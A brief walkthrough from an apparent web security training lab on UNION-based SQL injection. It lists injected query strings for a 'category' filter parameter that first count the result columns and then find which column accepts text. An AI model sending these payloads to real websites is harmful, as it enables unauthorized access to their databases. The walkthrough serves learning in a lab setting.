 #### First do the same queries as the previous labs to figure out the no. of columns available

```
/filter?category=Pets'+UNION+SELECT+null--            #Error response

/filter?category=Pets'+UNION+SELECT+null,null--       #Error response

/filter?category=Pets'+UNION+SELECT+null,null,null--  #200 OK
```

#### Then, add the text as asked in the lab question, e.g:- `ab3Wks`, to the queries below

```
/filter?category=Pets'+UNION+SELECT+'ab3Wks',null,null--   #Error response
/filter?category=Pets'+UNION+SELECT+null,'ab3Wks',null--   #200 OK
```

